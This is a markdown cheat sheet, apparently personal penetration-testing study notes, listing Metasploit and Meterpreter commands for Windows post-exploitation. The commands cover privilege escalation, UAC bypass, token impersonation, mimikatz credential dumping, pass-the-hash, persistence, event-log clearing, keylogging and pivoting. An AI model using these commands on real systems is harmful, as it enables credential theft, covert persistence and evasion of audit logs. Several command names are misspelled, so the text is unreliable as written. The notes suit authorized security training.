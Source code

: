 # Windows Post Exploitation

## Meterpreter Post Exploitation Modules

- `getsystem` will try to get Admin privileges
- `show_mount` will list all USB and drives mounted on the system
- `migrate <PID>` will migrate to another process
- `post/windows/manage/archmigrate` will let meterpreter to migrate and upgradse the actual arch
- `post/windows/manage/migrate` will migrate to another process
- `post/windows/gather/win_privs` will list the actual privileges on the session
- `post/windows/gather/enum_logged_on_users` will list the actual logged users in the system
- `post/windows/gather/checkvm` will check if the target is a virtual machine
- `post/windows/gather/enum_applications` will enumerate the installed applications and versions in the target system
- `post/windows/gather/enum_av_excluded` will list the folders that are excluded from AV scans
- `post/windows/gather/enum_computers` will enumerate other computers of the domain
- `post/windows/gather/enum_patches` will enumerate applied patches on the system
- `post/windows/gather/enum_shares` will list all the shares in the system
- `post/windows/manage/enable_rdp` will enable rdp server

## Bypass UAC

- `search bypassuac` will display all UAC bypasses, all
- `windows/local/bypassuac_injection` module to bypass UAC by using memory injection

## Impersonation tokens with incognito

- `load incognito` will load module to get tokens
- `list_tokens -u` will list available tokens to impersonate
- `impersonate_token <token>` will try to impersonate against a token

## Mimikatz MSF module

- `load kiwi` will load mimikatz
- `creds_all` will display saved credentials
- `lsa_dump_sam` will dump SAM db
- `lsa_dump_secrets` will dump NTLM and syskeys
- `upload <mimikatz_binary>` will upload mimikatz binary
- `privilege::debug` will check if the permissions are correct to perform actions
- `sekurlsa::logonpasswords` will try to get clear text passwords
- `lsadump::sam` will dump SAM db

## Pass The Hash

- `windows/smb/psexec` module works for doing PtH attacks using `SMBPASS` with the user hash will login as the user

## Generating Persistence on Windows

- `search platform:windows persistence` will search for persistence modules.
- `multi/handler` when the persistence module is configured and executed the multi handler is used to reconnect to the target.
- `windows/manage/enable_rdp` module to enable RDP on a target system
- `clearev` this meterpreter module will clear all event logs

## Keylogging

- `keyscan_start` in a meterpretere session to start sniffing the keys
- `keyscan_dump` in a started keyscan to extract the strokes keys
- `keyscan_stop` to stop receiving keystrokes

## Pivoting thought network

- `run autoroute -s <victim_network>` will create a route to the network
- `auxiliary/scanner/portscan/tcp` this module will be usefull to perform network scans to other computers in the same network
- `portfwd add -l <local_port> -p <victim2_port> -r <victim2_ip>` will create a TCP tunnel to access internal services via atacker computer
- `set payload wiwndows/meterpreter/bind_tcp` its important to use bind_tcp payload when pivoting to another machine
